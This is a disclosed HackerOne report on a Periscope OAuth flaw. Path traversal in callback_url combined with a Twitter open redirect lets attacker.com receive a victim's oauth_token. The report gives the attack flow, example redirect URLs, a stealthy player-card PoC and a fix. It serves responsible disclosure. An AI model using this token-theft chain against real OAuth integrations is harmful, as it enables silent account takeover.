 # Insufficient OAuth callback validation which leads to Periscope account takeover

## Report Details
- **Report ID**: 110293
- **URL**: https://hackerone.com/reports/110293
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2016-01-12T18:13:53.536Z
- **Disclosed**: 2019-04-10T19:49:04.705Z

## Reporter
- **Username**: filedescriptor
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: x

## Vulnerability Information
Hi,
I would like to report an issue in the Periscope Twitter application which allows attacker to circumvent the callback locking to takeover victim's Periscope account which is connected to a Twitter account.

#Detail
In the mobile Periscope app, the *consumer_key* and *consumer_secret* for Twitter application are directly embedded into the app in order to facilitate the OAuth process. The key and secret are protected by obfuscation but it can be recovered by reverse engineering. 

For reference this is the key and secret for Periscope:
```
CONSUMER_KEY: █████████
CONSUMER_SECRET: ███
```

In fact, the leakage of the key and secret pair is *not* a major security concern as Twitter provides the "Callback Locking" protection to prevent the *callback_url* to be overwritten during the Request Token phase.

Periscope *does* employ callback locking. However, the locking for Periscope is kind of special compared to normal applications (I guess this is only for Twitter's official applications). In short, it checks whether the protocol for *callback_url* can be used to leak the OAuth token to third parties. For example, ```https://```, ```http://```, ```ftp://``` are forbidden, while ```twittersdk://``` and ```whatever://``` are allowed. The check is sufficient by itself. However, the check is under the assumption that the *callback_url* provided is a complete URI. In addition, it is discovered that it is possible to **use only the path** for *callback_url* and pass the test (e.g. a/../home is valid), and that allows the path to be traversed. Now, if an attacker can find an open redirector on Twitter, he/she can use that as *callback_url* to redirect victim with the OAuth token to attacker's control site.

The attack flow would look like this:

1. Attacker uses the consumer key & secret to generate a request token
2. Victim authorizes the Periscope app for the request token
3. Victim is redirected to the open redirector with path traversal (e.g. /redirect?url=http://attacker.com#&oauth_token=...)
4. Victim then lands on attacker controlled site with the token (http://attacker.com#&oauth_token=)
5. Now the attacker gains the OAuth token from victim. He/she can use it to to exchange for *access_token* and logins victim's Periscope account.

(By the way, the URL fragment in step 3 is a common technique to preserve tokens during HTTP redirect which I really like)

And without surprise, such open redirect bug does exist. 
In the login page (https://twitter.com/login?redirect_after_login=), the *redirect_after_login* parameter can be specified to redirect users if they have logged in. There's a check in place which rejects any URL which is not belong to a Twitter subdomain (i.e. whitelist \*.twitter.com). However, for Twitter ads one can make a generation card and set the fallback URL to any destination, and the URL for the card happens to be a Twitter subdomain (cards.twitter.com). So after all, attackers can first setup a generation card to redirect to attacker's controlled site, and use the card URL as *redirect_after_login*.

The redirection flow:

1. callback_url = a/../../login?redirect_after_login=https://cards.twitter.com/card_id
2. https://cards.twitter.com/card_id
3. https://attacker.com

BAM BAM BAM

Now, Periscope has enabled "Login with Twitter", that means the user will automacially authorize the app for authentication if he/she has done that once before, attacker can abuse that to make the whole attack **stealthy and without user interaction**.

#PoC
1. Prepare an Periscope account which is connected to a Twitter account, and make sure you have logged in Twitter as that account
2. Go to https://twitter.com/attackerfoobar/status/686936815945789440
3. Wait for a moment
4. Your Periscope account will then be renamed as "Pwn3d"

In this PoC I embedded the payload in a player card to achieve maximum stealthiness, so that whenever the tweet arrives to victim's timeline the attack automatically triggers. You can also check out the standalone PoC here: https://innerht.ml/pocs/periscope-oauth-callback-hijack

Video demonstration: https://vimeo.com/151530694 (password: xauth)

#Fix
Since the open redirect bug is more like a feature and may be many of them out there, I would suggest to improve the validation on the callback locking. For example, only allow the *callback_url* to be a complete URL should do the job.

## Attachments
No attachments
